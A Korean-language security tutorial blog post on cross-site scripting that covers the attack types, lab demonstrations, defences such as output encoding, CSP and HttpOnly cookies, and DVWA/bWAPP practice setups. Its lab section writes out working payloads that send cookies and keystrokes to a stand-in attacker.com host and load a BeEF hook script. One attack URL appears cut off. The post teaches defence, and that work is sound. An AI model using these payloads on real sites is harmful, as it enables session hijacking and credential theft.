


---
layout: post
title: "XSS"
date: 2025-09-28 17:00:00 +0900
categories: [web-hacking]
---

## 1. 개요

**XSS (Cross-Site Scripting)**는 웹 애플리케이션이 사용자로부터 입력받은 값을 적절한 검증 없이 웹 페이지에 그대로 출력할 때 발생하는 취약점이다.
공격자는 악성 스크립트(`<script>...`)를 삽입하여 피해자가 해당 페이지를 열람할 때 브라우저에서 스크립트가 실행되게 만든다.

### 핵심 특징
*   공격 대상이 서버가 아닌 **클라이언트(사용자)**이다.
*   자바스크립트를 통해 브라우저가 가진 모든 권한(쿠키 접근, API 호출 등)을 제어할 수 있다.

---

## 2. 위험도

| 항목 | 값 |
|------|-----|
| **OWASP Top 10** | A05:2025 - Injection |
| **CWE** | CWE-79 (Improper Neutralization of Input During Web Page Generation) |
| **CVSS** | 6.1 ~ 8.8 (Medium ~ High) |

---

## 3. 공격 유형

### Reflected XSS

사용자의 입력값이 서버를 거쳐 **즉시 응답 페이지에 반사**되는 형태이다.

**예시 요청:**
```http
GET /search?q=<script>alert('XSS')</script> HTTP/1.1
```
**서버 응답:**
```html
<p>검색 결과: <script>alert('XSS')</script></p>
```

> **공격 흐름**: 공격자가 `http://target.com/search?q=<script>...</script>` 형태의 악성 링크를 이메일이나 메신저로 피해자에게 전송. 피해자가 링크 클릭 시 스크립트 실행.

---

### Stored XSS

악성 스크립트가 서버의 데이터베이스에 **영구적으로 저장**되는 형태이다.
*   게시판, 댓글, 방명록 등에서 발생
*   피해자가 해당 글을 읽을 때마다 실행되므로 **파급력이 가장 큼**

> **공격 흐름**: 공격자가 게시판에 악성 스크립트 포함 글 작성 → 일반 사용자가 해당 글 클릭 → 브라우저에서 스크립트 자동 실행.

**Stored XSS 공격 흐름:**


---

### DOM-based XSS

서버를 경유하지 않고 **브라우저 내 자바스크립트가 직접 DOM을 조작**하는 과정에서 발생한다.

**취약한 코드:**
```javascript
// URL 해시(#) 값을 그대로 innerHTML에 삽입
document.getElementById('output').innerHTML = location.hash.substring(1);
```

**공격 URL:**
```
http://example.com/page#
```

> **공격 흐름**: 공격자가 위 URL을 피해자에게 전송. 페이지가 로드되면 JavaScript가 `#` 뒤의 값을 그대로 DOM에 삽입 → 스크립트 실행. 서버 로그에는 해시(#) 이후 값이 기록되지 않아 탐지 어려움.

**특징:**
*   HTTP 트래픽에 페이로드가 남지 않아 **서버 로그/WAF로 탐지 어려움**
*   SPA(Single Page Application)에서 자주 발생
*   `innerHTML`, `document.write()`, `eval()` 등이 위험 함수

**DOM-based XSS 흐름:**


---

## 4. 보안 고려사항

XSS는 **클라이언트(브라우저)**를 공격하므로 서버 보안만으로는 방어할 수 없다. 출력값 인코딩과 CSP 정책이 핵심이다.

### 4.1. 공격 시연 (Lab 환경)

#### 공격 1: Session Hijacking (쿠키 탈취)

**[취약한 환경]**
*   게시판에 Stored XSS 취약점 존재
*   HttpOnly 쿠키 미설정

**[공격 과정]**
```bash
# 1. 공격자 PC에서 리스너 실행
nc -lvnp 80
```

```html
<!-- 2. 게시판에 악성 스크립트 작성 -->
<script>
  document.location = 'http://attacker.com/?cookie=' + btoa(document.cookie);
</script>
```

```bash
# 3. 피해자가 게시글 열람 시 공격자 서버로 쿠키 전송
# 공격자 터미널:
# GET /?cookie=c2VjdXJpdHk9bG93OyBQSFBTRVNTSUQ9YWJjMTIz HTTP/1.1
# Base64 디코딩: security=low; PHPSESSID=abc123

# 4. 탈취한 세션으로 로그인
curl -H "Cookie: PHPSESSID=abc123" http://target/profile
```

**[공격 결과]**: 쿠키 탈취 → 계정 탈취(Session Hijacking) 🔓

---

#### 공격 2: BeEF를 이용한 브라우저 제어

**[취약한 환경]**
*   XSS 취약점 존재 (Reflected 또는 Stored)
*   피해자가 악성 페이지 방문

**[공격 과정]**
```bash
# 1. BeEF 서버 실행
beef-xss
# 관리 페이지: http://attacker.com:3000/ui/panel
```

```html
<!-- 2. XSS로 BeEF 훅 스크립트 삽입 -->
<script src="http://attacker.com:3000/hook.js"></script>
```

```text
# 3. 피해자가 페이지 열람 시 BeEF 패널에 브라우저 등록

# 4. BeEF에서 가능한 공격:
#    - 쿠키 탈취
#    - 키로깅 (입력값 캡처)
#    - 피싱 페이지로 리다이렉트
#    - 가짜 로그인 팝업 표시
#    - 내부 네트워크 스캔
```

**[공격 결과]**: 브라우저 완전 제어 → 지속적 공격 가능 🔓

---

#### 공격 3: Keylogger 삽입

**[취약한 환경]**
*   로그인 페이지 또는 관련 페이지에 XSS 취약점

**[공격 과정]**
```html
<!-- XSS로 삽입되는 키로거 스크립트 -->
<script>
document.onkeypress = function(e) {
  var key = e.key;
  new Image().src = 'http://attacker.com/log?key=' + encodeURIComponent(key);
};
</script>
```

```bash
# 공격자 서버 로그:
# GET /log?key=u HTTP/1.1
# GET /log?key=s HTTP/1.1
# GET /log?key=e HTTP/1.1
# GET /log?key=r HTTP/1.1
# → 사용자 입력값 실시간 유출!
```

**[공격 결과]**: 입력값(아이디, 비밀번호) 실시간 탈취 🔓

---

### 4.2. 방어 대책

| 공격 | 방어 |
|:---|:---|
| Session Hijacking | 방어 1, 4 |
| BeEF 브라우저 제어 | 방어 2, 3 |
| Keylogger | 방어 1, 2, 3 |

---

#### 방어 1: 출력값 인코딩 (필수)

사용자 입력을 HTML에 삽입할 때 반드시 이스케이프한다.

```php
// PHP
echo htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8');
```

```javascript
// JavaScript: innerHTML 대신 textContent 사용
element.textContent = userInput;  // 스크립트가 실행되지 않음

// DOM-based XSS 방어
// ❌ 위험
document.getElementById('output').innerHTML = location.hash.substring(1);
// ✅ 안전
document.getElementById('output').textContent = location.hash.substring(1);
```

---

#### 방어 2: Content Security Policy (CSP)

인라인 스크립트와 외부 도메인 스크립트를 차단한다.

```http
# 응답 헤더에 추가
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'
```

```html
<!-- HTML 메타 태그로도 설정 가능 -->
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'">
```

**CSP 효과:**
*   `<script>alert('XSS')</script>` → 실행 차단
*   `<script src="http://evil.com/hook.js">` → 로드 차단

---

#### 방어 3: DOM-based XSS 방어

위험한 DOM API를 안전한 대체 함수로 교체한다.

| 위험한 함수 | 안전한 대체 |
|-------------|-------------|
| `innerHTML` | `textContent` |
| `document.write()` | `createElement()` + `appendChild()` |
| `eval()` | `JSON.parse()` |
| `setTimeout('string')` | `setTimeout(function)` |

---

#### 방어 4: HttpOnly / Secure 쿠키

JavaScript에서 세션 쿠키 접근을 차단한다.

```http
Set-Cookie: sessionid=abc123; HttpOnly; Secure; SameSite=Strict
```

*   **HttpOnly**: `document.cookie`로 접근 불가 → Session Hijacking 방지
*   **Secure**: HTTPS에서만 전송
*   **SameSite=Strict**: CSRF 공격 방지

---

## 5. 실습 환경

### DVWA
```bash
docker run -d -p 80:80 vulnerables/web-dvwa
```
*   접속: `http://localhost`
*   기본 계정: `admin` / `password`
*   Security Level을 Low로 설정 후 XSS 메뉴에서 실습

### bWAPP
```bash
docker run -d -p 80:80 raesene/bwapp
```
*   XSS - Reflected, Stored, DOM 모두 실습 가능

---

## OWASP Top 10 매핑

| 관련 항목 | 설명 |
|----------|------|
| **A05: Injection** | XSS는 신뢰할 수 없는 데이터가 웹 페이지에 포함되어 실행되는 인젝션 취약점이다. |

<hr class="short-rule">
